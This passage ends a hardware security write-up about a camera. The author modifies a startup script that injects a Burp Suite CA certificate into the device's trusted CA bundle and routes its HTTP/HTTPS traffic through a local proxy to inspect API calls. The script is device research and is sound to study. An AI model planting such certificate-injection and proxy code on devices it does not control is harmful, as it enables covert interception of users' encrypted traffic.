 Then, transfer it to the device inside the `/configs` folder, and modify the `a.sh` script :
```shell
check_cacert() {
    while true
    do
      if [[ -f /tmp/cacert.pem ]]
      then
          echo '************************************** file has been found'
          cat /configs/burp.pem >> /tmp/cacert.pem
          exit
      fi
      sleep 0.1
    done
}

echo "********************* PWN3D **********************"
export http_proxy="http://192.168.1.167:8081"
export https_proxy="http://192.168.1.167:8081"

check_cacert &
# check if the env variables have been set
env
```

The function `check_cacert` check if the file `/tmp/cacert` has been generated, and sleep 10 milliseconds if not, else it inject the burp certificate inside it.

Once everything has been setup as shown, the device can be rebooted and if everything has been done correctly, the BurpSuite proxy should receive incoming requests as the CA has been added to device list of trusted CA :


[ca_inject.webm](https://github.com/user-attachments/assets/6dd308a8-abc3-4afa-9680-631f61e63ddf)

We can see that the `HTTP_PROXY` and `HTTPS_PROXY` variables has been set correctly, and the certificate has been injected correctly inside the device trusted CA list.
With that done, the BurpProxy should be receiving HTTPS from the device to the remote API :

![](assets/img28.png)

With this setup (root shell and HTTPS proxy), I can now explore in depth how the camera work. That's all for this writeup !
